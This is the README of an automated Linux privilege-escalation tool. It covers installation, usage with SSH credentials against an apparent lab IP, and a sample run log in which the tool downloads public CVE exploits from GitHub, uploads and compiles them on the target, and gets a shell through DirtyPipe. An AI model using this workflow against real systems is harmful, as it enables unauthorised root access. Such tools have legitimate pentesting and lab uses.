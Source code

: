 # Automated Privilege Escalation

## Installation
```bash
git clone https://github.com/Trickhish/automated_privilege_escalation       
cd automated_privilege_escalation     
pip install -r requirements.txt
```

## Use
`usage: python3 autope.py [-h] [--pwd PWD] [--pvk PVK] user@host`

examples:  
  - `python3 autope.py jessie@10.10.184.12 --pwd PaSsWoRd` Connecting to 10.10.184.12 as jessie with a password    
  - `python3 autope.py jessie@10.10.184.12 --pvk ~/.ssh/id_rsa` Connecting to 10.10.184.12 as jessie with a private key

## Run example

`python3 autope.py jessie@10.10.184.12 --pwd PaSsWoRd`

```
Connecting to jessie@10.10.184.12 with password

Checking local C support ✅

Checking languages support
  ✅ python supported
  ✅ c supported
  ❌ No support for go

🔎 Looking for exploits
Found 8 exploits
  🔎 Looking for a POC for CVE-2022-32250
  Found 2
    Trying 🇨-C https://github.com/theori-io/CVE-2022-32250-exploit
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed
    Trying 🇨-C https://github.com/ysanatomic/CVE-2022-32250-LPE
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed

  🔎 Looking for a POC for CVE-2022-2586
  Found 2
    Trying 🇨-C https://github.com/aels/CVE-2022-2586-LPE
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed
    Trying 🇨-C https://github.com/sniper404ghostxploit/CVE-2022-2586
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed

  🔎 Looking for a POC for CVE-2022-0847
  Found 8
    Trying 🇨-C https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - succeeded
      Running Shell

```
